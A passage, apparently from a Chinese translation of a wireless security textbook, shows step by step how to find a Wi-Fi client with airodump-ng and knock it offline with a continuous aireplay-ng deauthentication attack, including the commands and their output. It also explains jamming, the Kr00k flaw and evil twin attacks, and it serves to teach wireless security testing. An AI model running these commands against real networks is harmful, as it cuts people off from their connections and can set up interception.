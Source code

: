 当前，BSSID 是`82:16:F9:6E:FB:56`，频道是`6`。我们将此数据传递给 Airodump-ng 以识别连接到 AP 的客户端：

```
# **airodump-ng wlan0mon --bssid  82:16:F9:6E:FB:56**
CH 6 |[ Elapsed: 42 s ] [ 2019-09-19 10:49
BSSID                   PWR Beacons  #Data, #/s   CH    MB  ENC  CIPHER AUTH ESSID
82:16:F9:6E:FB:56       -37      24    267    2    6    65  WPA2 CCMP   PSK  Secure Home
BSSID                   STATION           PWR   Rate     Lost     Frames   Probe
82:16:F9:6E:FB:56       50:82:D5:DE:6F:45 -28   0e- 0e    904        274 
```

根据此输出，我们识别出一个连接到 AP 的客户端。该客户端的 BSSID 是 50:82:D5:DE:6F:45（他们无线网络接口的 MAC 地址）。

现在，你可以向客户端发送多个断开连接数据包，迫使客户端失去互联网连接。为了执行此攻击，我们使用 Aireplay-ng：

```
# **aireplay-ng --deauth 0 -c 50:82:D5:DE:6F:45 -a 82:16:F9:6E:FB:56 wlan0mon**
```

`--deauth`参数指定了断开连接攻击和将要发送的断开连接数据包数量。选择`0`表示数据包将被持续发送。`-a`参数指定 AP 的 BSSID，`-c`参数指定目标设备。下一个列表显示了命令的输出：

```
11:03:55   Waiting for beacon frame (BSSID:  82:16:F9:6E:FB:56) on channel 6
11:03:56   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|64 ACKS]
11:03:56   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [66|118 ACKS]
11:03:57   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [62|121 ACKS]
11:03:58   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [64|124 ACKS]
11:03:58   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [62|110 ACKS]
11:03:59   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [64|75 ACKS]
11:03:59   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [63|64 ACKS]
11:03:00   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [21|61 ACKS]
11:03:00   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|67 ACKS]
11:03:01   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|64 ACKS]
11:03:02   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|61 ACKS]
11:03:02   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|66 ACKS]
11:03:03   Sending 64 directed DeAuth (code 7). STMAC [50:82:D5:DE:6F:45]  [ 0|65 ACKS]
```

输出显示发送到目标的断开连接数据包。当目标设备变得不可用时，攻击成功。检查该设备时，你会发现它不再连接任何网络。

你也可以通过其他方式对 Wi-Fi 进行拒绝服务攻击。*无线电干扰*，另一种常见方法，通过任何无线协议干扰无线通信。在这种攻击中，攻击者依赖于软件定义无线电设备或便宜的现成 Wi-Fi 加密狗，发送无线电信号，使无线频道无法供其他设备使用。我们将在第十五章展示这种攻击。

另外，你也可以执行*选择性干扰*，这是一种复杂的无线电干扰攻击版本，其中攻击者只干扰特定的高重要性数据包。

值得注意的是，对于某些芯片组，去认证攻击还可能降低 AP 和客户端之间通信所使用的加密密钥的安全性。最近，杀毒公司 ESET 的研究发现了这一漏洞，称为 Kr00k（CVE-2019-15126）。在此漏洞存在时，去认证的 Wi-Fi 芯片组在重新关联时会使用全零的加密密钥，这使得攻击者能够解密受影响设备传输的数据包。

### Wi-Fi 关联攻击

*关联攻击*使无线站点被欺骗连接到攻击者控制的 AP。如果目标站点已经连接到其他网络，攻击者通常会通过实施我们刚才解释的其中一种去认证技术来开始。一旦受害者失去连接，攻击者就可以通过滥用其网络管理器的不同功能将其引诱到恶意网络中。

在本节中，我们概述了最常见的关联攻击，并展示了已知信标攻击。

#### 邪恶双胞胎攻击
